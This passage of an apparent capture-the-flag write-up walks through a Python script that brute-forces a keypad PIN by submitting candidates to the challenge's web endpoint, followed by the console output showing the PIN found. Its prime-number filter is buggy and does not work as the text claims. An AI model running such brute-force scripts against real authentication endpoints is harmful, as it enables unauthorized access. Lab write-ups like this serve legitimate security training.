 With that information in hand, let's finalize our Python code to submit all values to the pin pad, and print only the one that returns a success code of `True`.

```python
#!/usr/bin/python3

import math
import json
import urllib.request
from itertools import product

valid_digits = [1,3,7]

def generate(valid_numbers):
    from itertools import product
    possible_digits = len(valid_numbers)
    for raw in product(valid_numbers, repeat=4):
        if len(set(raw)) == possible_digits:
            yield raw

def validate(possible_pin):
	response = urllib.request.urlopen('https://keypad.elfu.org/checkpass.php?i=' + possible_pin + '&resourceId=41e5c834-b3e2-487d-8f57-f65f37ad9059')
	data = json.loads(response.read().decode('utf-8'))
	if data['success'] == True:
		print("Valid Pin Found: " + possible_pin)


isPrime = True
for nums in generate(valid_digits):
	pin = ''.join(map(str, nums))
	for x in range(2, int(math.sqrt(int(pin)) + 1)):
		if int(pin) % x == 0:
			isPrime = False
			break
		if isPrime:
			validate(pin)
			break
```

This code should be pretty self-explanatory, but let's brief over it for those who are having trouble understanding it.

I create another function definition called `validate` and pass in our pin code as the variable `possible_pin`. From there we create a new variable called `response` which will contain the response from the web server.

We then parse the JSON data as UTF-8, and check if the `success` key from the JSON requests is equal to `True`. If it is, we print the correct pin code to the screen.

So, let's run the script. Upon running it, we get the valid pin code!

```console
root@kali:~/HH/frosty_keypad# python3 code_breaker.py 
Valid Pin Found: 7331
```

